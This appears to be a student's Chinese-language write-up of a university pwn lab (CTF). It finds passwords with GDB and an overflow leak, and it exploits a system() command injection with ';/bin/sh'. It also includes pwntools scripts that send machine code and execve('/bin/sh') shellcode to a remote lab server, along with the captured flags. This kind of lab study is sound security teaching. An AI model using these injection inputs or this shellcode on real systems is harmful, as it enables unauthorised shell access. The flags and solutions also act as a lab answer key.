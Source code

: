 # Pwn Lab1
## 3220102732-周伟战-Pwn基础
---
> 前期准备，在ubuntu上两个指令安装
sudo apt install -y gdbserver
sudo pip3 install pwntools
(操作均在Linux虚拟机中进行)
### Task1
####1.1
Step1:利用pwn template --host 116.62.247.145 --port 10100 ./hello>hello_pwn.py将程序给重定向到hello_pwn.py之中,并且已经将我们remote环境也封装完毕
利用python3 hello_pwn.py remote来验证
![P2](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P2.png?raw=true)
Step2：
在阅读hello.c代码之后，发现应该将断点设置在(Line121)get_user_password（）处
![P3](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P3.png?raw=true)
在GDB一直单步调试后，发现密码是
**`I_am_very_very_strong_password!!`**
![P4](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P4.png?raw=true)
由此得到了第一部分的flag:
**`AAA{H3ll0_the3E_`**
> 1.1  get the flag1 over
####1.2 get the flag2 
> 要获得flag2是利用这个程序的bug，在remote下，在username下输入32个字长的username，然后
会导致真实的password接在程序报错的字符串中。

![P5](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P5.png?raw=true)
得到admin的密码是：**`V3rY_C0mp13x_Pa55W0rD`**(21len)
Step3:
在hello_pwn.py中添加代码，使得在remote状态下完成admin的账号登录
![P6](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P6.png?raw=true)
最终获得flag2**`cOoL_anD_m0t1vaTEd_Pwni3s}`**
连在一起获得flag:**`AAA{H3ll0_the3E_cOoL_anD_m0t1vaTEd_Pwni3s}`**
### Task2
> 将injection1用IDA逆向并且进行F5反编译,观察main函数；
在命令行中进行nc 116.62.247.145 10101，并且利用helper解题，顺利的进入。

在观察过main之后，分析bug:
```C
  puts("input file name");
  scanf((unsigned int)"%32s", (unsigned int)filename, v0, v1, v2, v3, 0LL, 0LL, 0LL, 0LL);
  puts("input file data");
  read(0, appenddata, 0x80uLL);
  snprintf(
    (unsigned int)cmd,
    256,
    (unsigned int)"echo -n \"%s\" >> datafolder/%s",
    (unsigned int)appenddata,
    (unsigned int)filename,
    v4,
    filename[0]);
  system(cmd);
```
通过system执行`echo -n \"%s\" >> datafolder/%s`,来实现程序功能。
本题的思路是code injection，那么只需要在`input file data`里面输入`;ls`指令,很显然可以看见`flag.txt`文件
![P7](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P7.png?raw=true)
> 发现有flag.txt 说明已经找到了flag

重新进入该界面，利用;/bin/sh进入shell指令，通过查询IDA中反编译的readfile源码，得到了
`cat`指令然后利用指令cat flag.txt后就能获得flag，如下图所示:
![P8](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P8.png?raw=true)
**`flag:AAA{C0d3_1nJecti0n_5xampLE}`**
### Task3
> 以下是5个delegate的代码

```C
#include<stdio.h>
int add(int a,int b){
    return a+b;
}
int sub(int a,int b ){
    return a-b;
}
int AND(int a,int b){
    return a & b;
}
int OR(int a,int b){
    return a | b;
}
int XOR(int a ,int b){
    return a^b ;
}
```
然后利用命令行，获得其未link前的assemble code
`gcc calculator1.c -O2 -c -o calculator1.o`&&`objdump -M intel -d calculator.o|less`
获得优化过后的assemble code
![P9](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P9.png?raw=true)
![P10](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P10.png?raw=true)
![P12](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P12.png?raw=true)
> 获得了5个函数
```python
from pwn import *
context.arch='amd64'
add_asm='''
lea    eax,[rdi+rsi*1]
ret
'''
add_code=asm(add_asm)
print(add_code)
```
得到了add函数的`b'\x8d\x047\xc3'`
同理获得了SUB函数的`b'\x89\xf8)\xf0\xc3'`
AND函数的`b'\x89\xf8!\xf0\xc3'`
OR函数的`b'\x89\xf8\t\xf0\xc3'`
XOR函数的`b'\x89\xf81\xf0\xc3'`
```python
from pwn import *
context.arch='amd64'
context.log_level ='DEBUG'
#io=...
p=remote('116.62.247.145',10102)
p.sendlineafter(b"Request-1: give me code that performing ADD\n",b'\x8d\x047\xc3')
p.sendlineafter(b"Request-2: give me code that performing SUB\n",b'\x89\xf8)\xf0\xc3')
p.sendlineafter(b"Request-3: give me code that performing AND\n",b'\x89\xf8!\xf0\xc3')
p.sendlineafter(b"Request-4: give me code that performing OR\n",b'\x89\xf8\t\xf0\xc3')
p.sendline(b"Request-5: give me code that performing XOR\n",b'\x89\xf81\xf0\xc3')

p.interactive()
```
然后获得了flag
**`AAA{W0w_yoU_aRE_v3rY_g00d_4t_A5M_C0dE}`**
> 学习shellcode

```python
from pwn import *
context.arch='amd64'
context.log_level='DEBUG'
p=remote("116.62.247.145",10102)
shellasm='''
push 0x42
pop  rax
inc  ah
cqo
push rdx
movabs rdi,0x68732f2f6e69622f
push rdi
push rsp
pop  rsi
mov  r8,rdx
mov  r10,rdx
syscall
'''
shellcode=asm(shellasm)
p.sendline(shellcode)
p.interactive()
```
![P13](https://github.com/Magnus031/CTF2023/blob/main/Pwn/P13.png?raw=true)
得到了flag
**`AAA{Th1nK_l1ke_A_hacKeR_n0t_A_pr0graMM3r}`**

### Task4
### Bonus
